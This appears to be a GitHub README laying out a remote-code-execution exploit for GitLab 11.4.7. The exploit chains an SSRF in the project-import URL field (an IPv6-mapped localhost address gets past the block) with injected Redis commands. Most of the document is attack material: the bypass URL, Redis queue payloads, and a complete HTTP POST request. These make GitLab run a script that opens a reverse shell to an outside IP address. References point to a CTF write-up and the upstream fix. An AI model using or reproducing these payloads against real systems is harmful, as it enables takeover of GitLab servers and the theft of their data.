

# gitlab-SSRF-redis-RCE
GitLab 11.4.7 SSRF配合redis远程执行代码

## 0x01 SSRF
#### register user test

```
gitlab vuln: >>import project>> Repo by URL >> Git repository URL (ipv6 Bypass block url)

Example:
127.0.0.1:6379 >> [0:0:0:0:0:ffff:127.0.0.1]:6379
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/test/ssrf.git

```


## 0x02 redis RCE

```
root@gitlab:~# ps -ef |grep redis
root       739    20  0 06:42 ?        00:00:00 runsv redis
gitlab-+   741   739  1 06:42 ?        00:01:38 /opt/gitlab/embedded/bin/redis-server 127.0.0.1:6379
root@gitlab:~#
root@gitlab:~# netstat -ntpl
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:8060            0.0.0.0:*               LISTEN      1091/nginx      
tcp        0      0 127.0.0.1:9121          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:9090          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:9187          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:9093          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:6379          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:9100          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:9229          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:9168          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1091/nginx      
tcp        0      0 127.0.0.1:8082          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:9236          0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      26/sshd         
tcp6       0      0 :::9094                 :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      26/sshd         
root@gitlab:~# 

```
## send redis payload, get shell


#### POC:
```
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|setsid python /tmp/nc.py xx.xx.xx.xx 1234 \').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
 exec

```


```
POST /projects HTTP/1.1
Host: 10.10.20.166:5080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 794
Referer: http://10.10.20.166:5080/projects/new
Cookie: _gitlab_session=80f61bbe6eb0cb660da73e61dbb6b860; sidebar_collapsed=false; event_filter=all
X-Forwarded-For: 127.0.0.2
Connection: close
Upgrade-Insecure-Requests: 1

utf8=%E2%9C%93&authenticity_token=p7JycLd%2FiS7nEk30Ahi2i8oyEodZJ0V%2BBhCWtnKMMauqjInDAYedeS%2BWL%2F8nP7At0sPOMoBE4NxGZxv7vOp%2FFA%3D%3D&project%5Bimport_url%5D=git%3A%2F%2F%5B0%3A0%3A0%3A0%3A0%3Affff%3A127.0.0.1%5D%3A6379%2Ftest%2Fssrf.git
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|setsid python /tmp/nc.py 47.97.112.98 1234 \').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
 exec
&project%5Bci_cd_only%5D=false&project%5Bname%5D=&project%5Bnamespace_id%5D=2&project%5Bpath%5D=ssrf&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0
```

## 参考链接：

https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/
https://gitlab.com/gitlab-org/gitlab-ce/commit/ecbdef090277848d409ed7f97f69f53bbac7a92c#8da38c8f8d3f364231f4ee068986c220a6c54248
